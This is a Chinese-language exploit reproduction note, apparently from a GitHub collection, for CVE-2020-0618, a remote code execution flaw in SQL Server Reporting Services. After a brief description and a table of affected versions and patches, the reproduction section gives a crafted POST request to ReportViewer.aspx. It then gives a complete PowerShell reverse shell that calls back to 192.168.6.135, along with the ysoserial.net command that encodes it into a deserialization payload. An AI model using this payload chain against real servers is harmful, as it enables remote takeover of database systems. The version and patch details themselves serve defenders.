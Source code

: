 ```yaml
---
title: （CVE-2020-0618）SQL Server 远程代码执行漏洞
id: zhfly3136
---
```


# （CVE-2020-0618）SQL Server 远程代码执行漏洞

## 一、漏洞简介

该漏洞需要经过身份验证后，攻击者向 SQL Server 的报告服务(Reporting Services) 发送特制请求进行触发。攻击成功可获得SQL Server服务的对应控制权限。

## 二、漏洞影响

| 产品 | 版本 | 修复补丁编号 |
| --- | --- | --- |
| SQL Server 2016 Service Pack 2(GDR) | 13.0.5026.0 - 13.0.5101.9 | KB4505220 |
| SQL Server 2016 Service Pack 2 CU11 | 13.0.5149.0 - 13.0.5598.27 | KB4527378 |
| SQL Server 2014 Service Pack 3 (GDR) | 12.0.6024.0 - 12.0.6108.1 | KB4505218 |
| Server 2014 Service Pack 2 CU4 | 12.0.6205.1 - 12.0.6329.1 | KB4500181 |
| SQL Server 2012 Service Pack 4 (QFE) | 11.0.7001.0 - 11.0.7462.6 | KB4057116 |

## 三、复现过程

首先登陆 ReportServer/pages/ReportViewer.aspx

```
POST /ReportServer/pages/ReportViewer.aspx HTTP/1.1
Host: target
Content-Type: application/x-www-form-urlencoded
Content-Length: X `NavigationCorrector$PageState=NeedsCorrection&NavigationCorrector$ViewState=[PayloadHere]&__VIEWSTATE=` 
```

可以在PowerShell中使用以下命令来使用[ysoserial.net](https://github.com/pwntester/ysoserial.net)工具生成有效负载：

```
$command = '$client = New-Object System.Net.Sockets.TCPClient("192.168.6.135",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  =$sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)

$encodedCommand = [Convert]::ToBase64String($bytes) `.\ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c “powershell.exe -encodedCommand $encodedCommand” -o base64 | clip` 
```

> 编译好的ysoserial.net下载地址：https://github.com/ianxtianxt/ysoserial.net/
> 
> ps：上述命令在powershell里面执行好后，会自动黏贴到剪贴板上。

![image](../img/a75a74c9146e16953f568f023182acde.png)

## 参考链接

> https://www.mdsec.co.uk/2020/02/cve-2020-0618-rce-in-sql-server-reporting-services-ssrs/